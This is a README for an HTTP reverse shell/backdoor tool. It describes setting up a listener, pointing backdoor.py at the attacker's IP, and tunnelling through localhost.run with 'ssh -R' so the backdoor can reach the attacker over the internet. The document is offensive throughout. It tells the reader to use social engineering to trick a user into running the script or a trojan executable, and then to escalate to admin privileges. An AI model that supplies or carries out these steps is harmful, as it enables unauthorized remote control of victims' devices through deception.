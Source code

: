 # HTTP Reverse Shell/Backdoor

- Opens a backdoor on executed device via HTTP protocol

## Usage

### Attack over LAN
- Start listener
    ```bash
    python3 listener.py
    ```
    > Default port = 8080
    > Change port in `listerner.py` on line 33 if another service is using 8080 port

- Edit `IP` and `PORT` values in `backdoor.py` on line 48
    ```python
    IP = 'attacker_local_ip'
    PORT = attacker_port  # 8080
    ```

### Attack over the internet

- Start a ssh tunnel on attacker's device.
    ```bash
    ssh -R 80:localhost:<listener_port>
    ```
    > Note : Replace <listener_port> with port on which local server is running


- Copy link that will be available after successfully tunelling between attacker's machine and localhost.run server.
    ```
    example : <random_characters>.localhost.run
    ```

- Start Listener on your localhost using
    ```bash
    python3 listener.py
    ```

- Replace copied link in `backdoor.py` on line 48.
    ```python
    IP = '<random_characters>.localhost.run'
    ```

- Use social engineering to make user to execute the python file or created standalone executable/trojan. Use python to run backdoor.py script.
    ```
    python3 backdoor.py
    ```

- Now use post exploitation tools to gain admin priviliges

# Tested on 
- Windows 10
- Debian based OSes
- Android Termux